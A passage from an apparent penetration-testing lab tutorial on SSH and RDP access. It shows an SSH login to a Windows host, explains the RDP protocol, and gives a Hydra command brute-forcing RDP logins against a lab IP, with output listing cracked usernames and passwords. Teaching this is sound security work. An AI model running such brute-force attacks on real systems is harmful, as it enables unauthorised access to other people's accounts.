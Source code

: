 To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.

```shell-session
$ ssh user@10.129.42.197

The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>
```

## Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization. The Remote Desktop Protocol defines two participants for a connection: a so-called terminal server, on which the actual work takes place, and a terminal client, via which the terminal server is remotely controlled. In addition to the exchange of image, sound, keyboard, and pointing device, the RDP can also print documents of the terminal server on a printer connected to the terminal client or allow access to storage media available there. Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. The protocol is used by various official Microsoft apps, but it is also used in some third-party solutions.

### **Hydra - RDP**

We can also use `Hydra` to perform RDP bruteforcing.

```shell-session
$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
